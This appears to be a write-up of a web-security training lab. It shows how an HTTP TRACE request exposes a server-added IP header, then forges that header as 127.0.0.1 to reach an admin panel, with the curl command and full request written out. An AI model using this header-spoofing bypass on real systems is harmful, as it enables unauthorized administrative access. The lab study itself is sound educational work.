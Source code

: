 ```
Admin interface only available to local users
```

This state that only Local users mean only users that are using the system locally can see the admin functionality. That is useful information that tells us we can access the admin functionality if by chance we tell the server we are using the application from `localhost`.

After successful login, we couldn't see any useful information just the normal stuff but in the web vulnerability scanner like `nikto`, or `burp suite` we see there is a `TRACE` method supported.

**TRACE** is an HTTP request method that is used for debugging and troubleshooting purposes. When a server receives a TRACE request, it echoes back the entire request message, including all headers, to the client. This can be useful for developers to understand how a web application is handling a specific request, or to troubleshoot issues with a web server.

When we use this method using the tools like `curl` with the following command their output is like the following.

```
$ curl -X TRACE -i https://0a8d008d03dc2eba801c5876002f0014.web-security-academy.net/

HTTP/2 200 
content-type: message/http
x-frame-options: SAMEORIGIN
content-length: 186

TRACE / HTTP/1.1
Host: 0a8d008d03dc2eba801c5876002f0014.web-security-academy.net
user-agent: curl/7.88.1
accept: */*
Content-Length: 0
X-Custom-IP-Authorization: 185.168.184.15
```

You will see everything is echo back typically but one header is not set by us. We didn't set the `X-Custom-IP-Authorization` header they are set by the server. We know the TRACE method only echoes back the entire request header set by us so if the header is not set by us then this is indeed set by the server.

We set that header to our login session and change its value to `127.0.0.1` and we see our response contains the admin panel option, the complete request is like the following.

**Request:**
```
GET /my-account HTTP/2
Host: 0a8d008d03dc2eba801c5876002f0014.web-security-academy.net
Cookie: session=8YbNiyhY0Y8eQATX3pPgsHO8DllrAUSH
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://0a8d008d03dc2eba801c5876002f0014.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
X-Custom-Ip-Authorization: 127.0.0.1
```
